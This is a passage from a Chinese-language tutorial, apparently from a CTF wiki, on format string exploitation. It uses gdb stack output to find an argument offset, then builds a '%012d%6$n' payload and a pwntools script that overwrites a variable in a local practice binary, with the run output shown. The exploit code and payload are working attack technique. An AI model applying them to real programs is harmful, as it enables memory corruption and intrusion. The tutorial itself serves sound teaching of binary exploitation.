 #### 确定覆盖地址 

覆盖那里内容都好，覆盖地址肯定要明确的，覆盖栈上变量也是需要的。变量地址一般会存放在栈上，我们就需要找到栈存放这个变量地址的偏移。

#### 确定相对偏移 

调试在 printf 打断点：

```
────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10     ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"     ← $eax
```

在 0xffffcd14 处存储着变量 c 的地址。偏移量为 6 。

#### 进行覆盖 

这样，第 6 个参数处的值就是存储变量 c 的地址，我们便可以利用 %n 的特征来修改 c 的值。payload 如下

```
[addr of c]%012d%6$n
```

addr of c 的长度为 4，故而我们得再输入 12 个字符才可以达到 16 个字符，以便于来修改 c 的值为 16。

具体脚本如下

```
def forc():
    sh = process('./overwrite')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```

结果如下

```
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 74806
0xfffd8cdc
܌��%012d%6$n
܌��-00000160648modified c.
```



